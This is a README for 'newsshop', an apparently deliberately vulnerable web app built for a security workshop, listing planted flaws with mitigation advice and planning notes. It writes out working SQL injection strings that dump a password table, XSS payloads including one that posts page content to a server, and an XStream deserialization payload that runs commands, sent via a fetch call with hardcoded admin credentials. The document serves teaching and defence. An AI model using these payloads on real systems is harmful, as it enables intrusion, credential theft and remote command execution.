 newsshop
========

## Included known vulnerabilities:

### SQL Injection
* `name` field is vulnerable to SQL Injection
  * in a first step the attacker might read all tables in the database with
    ```
    ' or 1=1 UNION SELECT 0,false, 'alle','',GROUP_CONCAT(TABLE_NAME SEPARATOR ', '),'' FROM INFORMATION_SCHEMA.TABLES;--
    ```
  * in a second step he may read the contents of `PASSWORD`
    ```
    ' or 1=1 UNION SELECT 0,false, 'passwörter','',GROUP_CONCAT(PASSWORD SEPARATOR ', '),'' FROM PASSWORD;--
    ```

### Cross Site Scripting
* `source` field is vulnerable to XSS
  ```
  <img src="a" onerror="alert('hacked')" />
  ```
### Legacy attributes in API
* the newsletter support more attributes than the newsletter form
  * the field `mailProperties` may be filled with JSON/HTML by using a rest client/or browser tools
  * the field `mailproperites` itself is vulnerable to XSS

### Invalid Supply Chain
* xstream in 1.4.6 contains a command injection vulnerability
  * `http://localhost:8080/api/newsletter/import` with payload
    ```
    <newsletter class='dynamic-proxy'>
        <interface>com.andrena.newsec.model.Newsletterable</interface>
        <handler class='java.beans.EventHandler'>
            <target class='java.lang.ProcessBuilder'>
                <command>
                    <string>calc.exe</string>
                </command>
            </target>
            <action>start</action>
        </handler>
    </newsletter>
    ```

### Privileges
* Admin and Users run in the same Application
* Database contains Newsletters but also Passwords from another team (that has nothing to do with newletters)

## Planned/Possible vulnerabilities:

### Regex Denial of Service
* some attribute of the newsletter could be validated with a regexp, that may expand in exponential time

### Broken serialization
* `mail properties` is at this time a json document with html contents. It may also be yaml. Maybe it can be used to inject a serialization vulnerability

### Reflected/DOM XSS
* the confirmation page/error page could embedded html in and unsafe way allowing XSS
  * depedent on the source of JS-Injectable 
    * url parameter => DOM XSS
    * result of the former api call => Reflected XSS

## Mitigation

### Validate Input

* Names need not contain double quotes
* Number input should be numeric
* JSON Input should be JSON
* Richtext may contain HTML, but only formatting, no links, no images, no iframes
* dropdowns should be in a list of options

### sanitize output to other systems

* For SQL use Prepared Statements or equivalents
  * Never use user dependent SQL Templates (whenever the template string cannot be proofed to be in a finite set of texts, this should be alerting)
* For Serialization limit the types of the result
  * Limiting to interfaces should be considered harmful (because these allow an infinite set of new sub classes)
* For Console Access
  * Limit to allowed commands

### Track the dependencies

* Update to the newest dependencies
* Check whether vulnerable dependencies are drawn
  * and check whether the vulnerable part is really depended on

### Control your privileges

* for databases
  * do not access the database with admin rights
  * restrict the user to exactly those tables that he needs (`grant ...`)
* in general
  * do not run with root privileges
    * unless really needed - an than return the privileges as soon as possible

### Content Security Policy

* not allowing onerrors to be defined in the page would prevent `<img onerror>` attacks

### more xss examples:
* Blind XSS (executed on admin page)
* send page content to other server
```
<iframe src="javascript:console.log('xss?', window.parent.document.body.innerHTML)"></iframe>

<iframe src="javascript:fetch('http://localhost:8080', {
  method: 'POST',
  body: window.parent.document.body.innerHTML
})
"></iframe>
```
* delete entries in table
```
<iframe src="javascript:window.parent.document.querySelector('.delete-btn').click()"></iframe>
```

### to be continued
* add XSS to confirmation page
* add OpenAPI 
* add old urls in the frontend code (to hint at mail properties?)

### Next steps:
* docker
* Struktur/Ablauf Workshop mit Secorvo, insbesondere die Inhalte (erstmal abwarten): Wie soll der Kurs laufen?
* Folien fertigstellen
* Tests für die Maßnahmen: Input Validation,...
* Hints: über Anwendung, Handouts, über Fragen während des Workshops (die kann man schon vorbereiten)


### how to get the participants to the attacks

* admin password can be guessed (should just be used to see the results of XSS and not as an attack)
* e-mail: enter same value twice
* sql: try the different input fields, start with '
* MailProperties: guess, try things out, admin dashboard

### complete fetch code for invalid supply chain on mac 
* post into browser console
```
fetch("http://localhost:8080/api/newsletter/import", {
headers: {
"accept": "application/json, text/plain, */*",
"authorization": "Basic YWRtaW46YWRtaW4=",
"cache-control": "no-cache",
"Content-Type": "application/xml"
},
referrer: "http://localhost:8080/subscribe.html",
referrerPolicy: "strict-origin-when-cross-origin",
body: `<newsletter class="dynamic-proxy">
        <interface>com.andrena.newsec.model.Newsletterable</interface>
        <handler class="java.beans.EventHandler">
            <target class="java.lang.ProcessBuilder">
                <command>
                    <string>touch</string>
                    <string>mynewfile</string>
                </command>
            </target>
            <action>start</action>
        </handler>
    </newsletter>`,
method: "POST",
mode: "cors",
credentials: "include"
});
```

* connect to image and look for the generated file
```
$ docker exec -it newsshop-app-1 /bin/sh
/app # ls
```
